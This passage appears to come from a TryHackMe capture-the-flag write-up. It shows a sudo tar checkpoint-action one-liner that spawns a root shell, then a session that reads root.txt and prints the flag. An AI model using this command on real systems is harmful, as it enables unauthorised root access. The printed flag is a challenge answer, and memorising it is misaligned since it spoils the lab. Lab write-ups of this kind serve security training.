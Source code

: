 Great! Seems like we can break out from restricted environments by spawning an interactive system shell. 
`sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`

![image](https://github.com/ivanloh1216/TryHackMe/assets/58873811/d6b443cf-1d60-46b6-a4cb-a3d7c71f6147)

We have the root account's shell now. Let's get the flag.

```
# ls 
bin  boot  cdrom  dev  etc  home  initrd.img  initrd.img.old  lib  lib64  lost+found  media  mnt  opt  proc  root  run  sbin  snap  srv  sys  tmp  usr  var  vmlinuz  vmlinuz.old
# cd root
# ls
root.txt
# cat root.txt
THM{80UN7Y_h4cK3r}

```

>THM{80UN7Y_h4cK3r}
